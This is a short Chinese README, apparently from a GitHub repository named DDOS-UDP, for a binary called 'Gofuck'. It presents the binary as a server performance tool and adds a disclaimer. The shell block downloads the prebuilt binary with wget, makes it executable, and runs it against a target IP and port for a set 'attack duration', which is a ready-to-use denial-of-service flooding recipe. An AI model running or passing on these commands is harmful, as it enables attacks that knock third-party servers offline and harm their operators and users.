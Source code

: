 用户在使用本工具前请先查看授权及免责声明，Gofuck仅仅是一个用于服务器性能的工具，用作其他用途，后果自负。
Gofuck 使用文档：
	  使用前使用 chmod +x Gofuck 赋予执行权限。
	
使用参数：
```shell
wget https://github.com/randycolin/DDOS-UDP/releases/download/v.1.0.0/Gofuck
chmod +x Gofuck
./Gofuck <IP地址> <端口> <攻击持续时间>
```
